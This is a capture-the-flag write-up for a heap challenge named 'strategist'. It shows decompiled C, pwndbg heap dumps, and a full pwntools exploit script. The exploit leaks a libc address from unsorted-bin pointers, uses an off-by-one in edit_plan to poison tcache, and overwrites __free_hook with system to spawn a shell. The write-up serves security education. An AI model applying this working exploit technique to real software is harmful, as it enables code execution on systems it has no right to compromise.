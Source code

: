 * Description

To move forward, Sir Alaric requests each member of his team to present their most effective
planning strategy. The individual with the strongest plan will be appointed as the Strategist for
the upcoming war. Put forth your best effort to claim the role of Strategist!

* Solution

#+begin_src bash
pwndbg> checksec
File:     /home/curtain/Documents/ctf/2025/apocalypse-35/pwn/strategist/dist/strategist
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'./glibc/'
Stripped:   No
#+end_src


~main~ function:
#+begin_src c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 n2; // rax
  _BYTE s[808]; // [rsp+0h] [rbp-330h] BYREF
  unsigned __int64 v5; // [rsp+328h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(s, 0, 0x320u);
  banner();
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        n2 = menu();
        if ( n2 != 2 )
          break;
        show_plan(s);
      }
      if ( n2 > 2 )
        break;
      if ( n2 != 1 )
        goto LABEL_13;
      create_plan(s);
    }
    if ( n2 == 3 )
    {
      edit_plan(s);
    }
    else
    {
      if ( n2 != 4 )
      {
LABEL_13:
        printf("%s\n[%sSir Alaric%s]: This plan will lead us to defeat!\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
        exit(1312);
      }
      delete_plan(s);
    }
  }
}
#+end_src

Very normal program at first glance with *CURD*, let's dive into separately.
~create_plan~:
#+begin_src c
unsigned __int64 __fastcall create_plan(__int64 a1)
{
  int size; // [rsp+18h] [rbp-18h] BYREF
  int v3; // [rsp+1Ch] [rbp-14h]
  void *buf; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  v3 = check(a1);
  if ( v3 == -1 )
  {
    printf("%s\n[%sSir Alaric%s]: Don't go above your head kiddo!\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
    exit(1312);
  }
  printf("%s\n[%sSir Alaric%s]: How long will be your plan?\n\n> ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  size = 0;
  __isoc99_scanf("%d", &size);
  buf = malloc(size);
  if ( !buf )
  {
    printf("%s\n[%sSir Alaric%s]: This plan will be a grand failure!\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
    exit(1312);
  }
  printf("%s\n[%sSir Alaric%s]: Please elaborate on your plan.\n\n> ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  read(0, buf, size);
  *(_QWORD *)(a1 + 8LL * v3) = buf;
  printf(
    "%s\n[%sSir Alaric%s]: The plan might work, we'll keep it in mind.\n\n",
    "\x1B[1;32m",
    "\x1B[1;33m",
    "\x1B[1;32m");
  return __readfsqword(0x28u) ^ v5;
}
#+end_src

~show_plan~:
#+begin_src c
unsigned __int64 __fastcall show_plan(__int64 a1)
{
  signed int n0x64; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("%s\n[%sSir Alaric%s]: Which plan you want to view?\n\n> ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  n0x64 = 0;
  __isoc99_scanf("%d", &n0x64);
  if ( (unsigned int)n0x64 >= 0x64 || !*(_QWORD *)(8LL * n0x64 + a1) )
  {
    printf("%s\n[%sSir Alaric%s]: There is no such plan!\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
    exit(1312);
  }
  printf(
    "%s\n[%sSir Alaric%s]: Plan [%d]: %s\n",
    "\x1B[1;34m",
    "\x1B[1;33m",
    "\x1B[1;34m",
    n0x64,
    *(const char **)(8LL * n0x64 + a1));
  return __readfsqword(0x28u) ^ v3;
}
#+end_src

~edit_plan~:
#+begin_src c
unsigned __int64 __fastcall edit_plan(__int64 a1)
{
  size_t nbytes; // rax
  signed int n0x64; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("%s\n[%sSir Alaric%s]: Which plan you want to change?\n\n> ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  n0x64 = 0;
  __isoc99_scanf("%d", &n0x64);
  if ( (unsigned int)n0x64 >= 0x64 || !*(_QWORD *)(8LL * n0x64 + a1) )
  {
    printf("%s\n[%sSir Alaric%s]: There is no such plan!\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
    exit(1312);
  }
  printf("%s\n[%sSir Alaric%s]: Please elaborate on your new plan.\n\n> ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  nbytes = strlen(*(const char **)(8LL * n0x64 + a1));
  read(0, *(void **)(8LL * n0x64 + a1), nbytes);
  putchar(10);
  return __readfsqword(0x28u) ^ v4;
}
#+end_src

~delete_plan~:
#+begin_src c
unsigned __int64 __fastcall delete_plan(__int64 a1)
{
  signed int n0x64; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("%s\n[%sSir Alaric%s]: Which plan you want to delete?\n\n> ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  n0x64 = 0;
  __isoc99_scanf("%d", &n0x64);
  if ( (unsigned int)n0x64 >= 0x64 || !*(_QWORD *)(8LL * n0x64 + a1) )
  {
    printf("%s\n[%sSir Alaric%s]: There is no such plan!\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
    exit(1312);
  }
  free(*(void **)(8LL * n0x64 + a1));
  *(_QWORD *)(8LL * n0x64 + a1) = 0;
  printf("%s\n[%sSir Alaric%s]: We will remove this plan!\n\n", "\x1B[1;32m", "\x1B[1;33m", "\x1B[1;32m");
  return __readfsqword(0x28u) ^ v3;
}
#+end_src

** Libc address leak

Cause this program has =FULL= protection enabled, we need to leak =libc= address to defeat =PIE=. When we
look these four functions carefully, we can leverage the fact which *malloc's memory from  =unsorted
bins= will not clear =fd= and =bk= pointers*. After that, we can call ~show_plan~ to leak the libc address.

#+begin_src bash
pwndbg> x/20gx 0x555555604660
0x555555604660: 0x0000000000000000      0x0000000000000511
0x555555604670: 0x4343434343434343      0x00007ffff7bebca0
0x555555604680: 0x0000000000000000      0x0000000000000000
0x555555604690: 0x0000000000000000      0x0000000000000000
0x5555556046a0: 0x0000000000000000      0x0000000000000000
0x5555556046b0: 0x0000000000000000      0x0000000000000000
0x5555556046c0: 0x0000000000000000      0x0000000000000000
0x5555556046d0: 0x0000000000000000      0x0000000000000000
0x5555556046e0: 0x0000000000000000      0x0000000000000000
0x5555556046f0: 0x0000000000000000      0x0000000000000000
#+end_src

We can see that ~0x555555604678~ is a pointer to ~arena.bins~.

#+begin_src bash
pwndbg> arena
Arena for thread 1 is located at: 0x7ffff7bebc40
{
  mutex = 0,
  flags = 0,
  have_fastchunks = 0,
  fastbinsY = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0},
  top = 0x555555604ba0,
  last_remainder = 0x0,
  bins = {0x555555604660, 0x555555604660, 0x7ffff7bebcb0, 0x7ffff7bebcb0, 0x7ffff7bebcc0, 0x7ffff7bebcc0, 0x7ffff7bebcd0, 0x7ffff7bebcd0, 0x7ffff7bebce0, 0x7ffff7bebce0, 0x7ffff7bebcf0, 0x7ffff7bebcf0, 0x7ffff7bebd00, 0x7ffff7bebd00, 0x7ffff7bebd10, 0x7ffff7bebd10, 0x7ffff7bebd20, 0x7ffff7bebd20, 0x7ffff7bebd30, 0x7ffff7bebd30, 0x7ffff7bebd40, 0x7ffff7bebd40, 0x7ffff7bebd50, 0x7ffff7bebd50, 0x7ffff7bebd60, 0x7ffff7bebd60, 0x7ffff7bebd70, 0x7ffff7bebd70, 0x7ffff7bebd80, 0x7ffff7bebd80, 0x7ffff7bebd90, 0x7ffff7bebd90, 0x7ffff7bebda0, 0x7ffff7bebda0, 0x7ffff7bebdb0, 0x7ffff7bebdb0, 0x7ffff7bebdc0, 0x7ffff7bebdc0, 0x7ffff7bebdd0, 0x7ffff7bebdd0, 0x7ffff7bebde0, 0x7ffff7bebde0, 0x7ffff7bebdf0, 0x7ffff7bebdf0, 0x7ffff7bebe00, 0x7ffff7bebe00, 0x7ffff7bebe10, 0x7ffff7bebe10, 0x7ffff7bebe20, 0x7ffff7bebe20, 0x7ffff7bebe30, 0x7ffff7bebe30, 0x7ffff7bebe40, 0x7ffff7bebe40, 0x7ffff7bebe50, 0x7ffff7bebe50, 0x7ffff7bebe60, 0x7ffff7bebe60, 0x7ffff7bebe70, 0x7ffff7bebe70, 0x7ffff7bebe80, 0x7ffff7bebe80, 0x7ffff7bebe90, 0x7ffff7bebe90, 0x7ffff7bebea0, 0x7ffff7bebea0, 0x7ffff7bebeb0, 0x7ffff7bebeb0, 0x7ffff7bebec0, 0x7ffff7bebec0, 0x7ffff7bebed0, 0x7ffff7bebed0, 0x7ffff7bebee0, 0x7ffff7bebee0, 0x7ffff7bebef0, 0x7ffff7bebef0, 0x7ffff7bebf00, 0x7ffff7bebf00, 0x7ffff7bebf10, 0x7ffff7bebf10, 0x7ffff7bebf20, 0x7ffff7bebf20, 0x7ffff7bebf30, 0x7ffff7bebf30, 0x7ffff7bebf40, 0x7ffff7bebf40, 0x7ffff7bebf50, 0x7ffff7bebf50, 0x7ffff7bebf60, 0x7ffff7bebf60, 0x7ffff7bebf70, 0x7ffff7bebf70, 0x7ffff7bebf80, 0x7ffff7bebf80, 0x7ffff7bebf90, 0x7ffff7bebf90, 0x7ffff7bebfa0, 0x7ffff7bebfa0, 0x7ffff7bebfb0, 0x7ffff7bebfb0, 0x7ffff7bebfc0, 0x7ffff7bebfc0, 0x7ffff7bebfd0, 0x7ffff7bebfd0, 0x7ffff7bebfe0, 0x7ffff7bebfe0, 0x7ffff7bebff0, 0x7ffff7bebff0, 0x7ffff7bec000, 0x7ffff7bec000, 0x7ffff7bec010, 0x7ffff7bec010, 0x7ffff7bec020, 0x7ffff7bec020, 0x7ffff7bec030, 0x7ffff7bec030, 0x7ffff7bec040, 0x7ffff7bec040, 0x7ffff7bec050, 0x7ffff7bec050, 0x7ffff7bec060, 0x7ffff7bec060, 0x7ffff7bec070, 0x7ffff7bec070, 0x7ffff7bec080, 0x7ffff7bec080, 0x7ffff7bec090, 0x7ffff7bec090, 0x7ffff7bec0a0, 0x7ffff7bec0a0, 0x7ffff7bec0b0, 0x7ffff7bec0b0, 0x7ffff7bec0c0, 0x7ffff7bec0c0, 0x7ffff7bec0d0, 0x7ffff7bec0d0, 0x7ffff7bec0e0, 0x7ffff7bec0e0, 0x7ffff7bec0f0, 0x7ffff7bec0f0, 0x7ffff7bec100, 0x7ffff7bec100, 0x7ffff7bec110, 0x7ffff7bec110, 0x7ffff7bec120, 0x7ffff7bec120, 0x7ffff7bec130, 0x7ffff7bec130, 0x7ffff7bec140, 0x7ffff7bec140, 0x7ffff7bec150, 0x7ffff7bec150, 0x7ffff7bec160, 0x7ffff7bec160, 0x7ffff7bec170, 0x7ffff7bec170, 0x7ffff7bec180, 0x7ffff7bec180, 0x7ffff7bec190, 0x7ffff7bec190, 0x7ffff7bec1a0, 0x7ffff7bec1a0, 0x7ffff7bec1b0, 0x7ffff7bec1b0, 0x7ffff7bec1c0, 0x7ffff7bec1c0, 0x7ffff7bec1d0, 0x7ffff7bec1d0, 0x7ffff7bec1e0, 0x7ffff7bec1e0, 0x7ffff7bec1f0, 0x7ffff7bec1f0, 0x7ffff7bec200, 0x7ffff7bec200, 0x7ffff7bec210, 0x7ffff7bec210, 0x7ffff7bec220, 0x7ffff7bec220, 0x7ffff7bec230, 0x7ffff7bec230, 0x7ffff7bec240, 0x7ffff7bec240, 0x7ffff7bec250, 0x7ffff7bec250, 0x7ffff7bec260, 0x7ffff7bec260, 0x7ffff7bec270, 0x7ffff7bec270, 0x7ffff7bec280, 0x7ffff7bec280, 0x7ffff7bec290, 0x7ffff7bec290, 0x7ffff7bec2a0, 0x7ffff7bec2a0, 0x7ffff7bec2b0, 0x7ffff7bec2b0, 0x7ffff7bec2c0, 0x7ffff7bec2c0, 0x7ffff7bec2d0, 0x7ffff7bec2d0...},
  binmap = {0, 0, 0, 0},
  next = 0x7ffff7bebc40,
  next_free = 0x0,
  attached_threads = 1,
  system_mem = 135168,
  max_system_mem = 135168,
}
#+end_src

** Overflow

In function ~edit_plan~, there exist a buffer overflow, since the *strlen only stop at null terminator
(0x00)*, which will cause out-of-bounds write. Here is ~off-by-one~. see following analysis for details:
#+begin_src c
nbytes = strlen(*(const char **)(8LL * n0x64 + a1));
read(0, *(void **)(8LL * n0x64 + a1), nbytes);
#+end_src

We first malloc three chunks with following layout:
#+begin_src bash
pwndbg> heap
pwndbg will try to resolve the heap symbols via heuristic now since we cannot resolve the heap via the debug symbols.
This might not work in all cases. Use `help set resolve-heap-via-heuristic` for more details.

Allocated chunk | PREV_INUSE
Addr: 0x555555604000
Size: 0x250 (with flag bits: 0x251)

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x555555604250
Size: 0x410 (with flag bits: 0x411)
fd: 0x00

Allocated chunk | PREV_INUSE
Addr: 0x555555604660
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE
Addr: 0x555555604680
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE
Addr: 0x5555556046a0
Size: 0x20 (with flag bits: 0x21)

Top chunk | PREV_INUSE
Addr: 0x5555556046c0
Size: 0x20940 (with flag bits: 0x20941)

pwndbg> x/20gx 0x555555604660
0x555555604660: 0x0000000000000000      0x0000000000000021
0x555555604670: 0x4141414141414141      0x4141414141414141
0x555555604680: 0x0a41414141414141      0x0000000000000021
0x555555604690: 0x4242424242424242      0x4242424242424242
0x5555556046a0: 0x0a42424242424242      0x0000000000000021
0x5555556046b0: 0x4343434343434343      0x4343434343434343
0x5555556046c0: 0x0a43434343434343      0x0000000000020941
0x5555556046d0: 0x0000000000000000      0x0000000000000000
0x5555556046e0: 0x0000000000000000      0x0000000000000000
0x5555556046f0: 0x0000000000000000      0x0000000000000000
#+end_src

#+begin_quote
NOTE: Here we need to leverage the fact that malloc will reuse the ~prev_size~ field when ~PREV_IUSE~
flag set; and chunk_ptr must alignment to ~0xf~.
#+end_quote

then, ~edit_plan~ with first chunk and ~strlen~ will return ~off-by-one~ size, which include next chunk's
size.
#+begin_src bash
pwndbg> x/20gx 0x555555604660
0x555555604660: 0x0000000000000000      0x0000000000000021
0x555555604670: 0x4141414141414141      0x4141414141414141
0x555555604680: 0x4141414141414141      0x0000000000000031
0x555555604690: 0x4242424242424242      0x4242424242424242
0x5555556046a0: 0x0a42424242424242      0x0000000000000021
0x5555556046b0: 0x4343434343434343      0x4343434343434343
0x5555556046c0: 0x0a43434343434343      0x0000000000020941
0x5555556046d0: 0x0000000000000000      0x0000000000000000
0x5555556046e0: 0x0000000000000000      0x0000000000000000
0x5555556046f0: 0x0000000000000000      0x0000000000000000
pwndbg>
#+end_src

Now, the second chunk's size has beed tampered to ~0x31~. But for this challenge, we need to tamper
this value with ~0x41~ at least, cause we need to overwrite next chunk's ~next~ field.

After we control(overwrite) what next field of tcache (here is ~__free_hook~), we can malloc to get
that address and write ~libc.system~ to it. So when we call ~free~ with ~/bin/sh~ arguments next time.
this shellcode got trigger.

#+begin_src python :results output
#!/usr/bin/env python3

from pwn import *
import warnings

warnings.filterwarnings('ignore')

context.arch = 'amd64'

fname = './strategist'
if args.GDB:
    io = gdb.debug(fname, '''
    b show_plan
    c
''')
else:
    io = process(fname)
libc = io.libc

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
ru = lambda x: io.recvuntil(x)
rl = lambda: io.recvline()


def create(size, data):
   sla('> ', '1') 
   sla('> ', str(size))
   sa('> ', data)
   
def show(idx):
    sla('> ', '2')
    sla('> ', str(idx))
    ru('AAAAAAAA')
    arena_addr = u64(rl().strip().ljust(8, b'\x00'))
    print(f'arena address: {arena_addr:#x}')
    return arena_addr - 0x3ebca0  # get from debug

def edit(idx, data):
    sla('> ', '3')
    sla('> ', str(idx))
    sa('> ', data)
    
def delete(idx):
    sla('> ', '4')
    sla('> ', str(idx))

    
# leak libc address
# size must > 0x408, which is max tcache size
create(0x420, 'beef')
create(0x100, 'cafe')
delete(0)
delete(1)
create(0x420, 'AAAAAAAA')

libc.address = show(0)
print(f'libc address: {libc.address:#x}')
delete(0)

# overwrite next pointer of tcache
create(0x18, 'a'*0x18)
create(0x18, 'b'*0x18)
create(0x18, 'c'*0x18)
edit(0,b'a'*0x18 + p8(0x41))
delete(1)
delete(2)
create(0x30, b'a'*0x20 + p64(libc.sym.__free_hook))
create(0x18, b'/bin/sh\x00')
create(0x18, p64(libc.sym.system))
delete(2)

pause(1)
io.interactive()
#+end_src
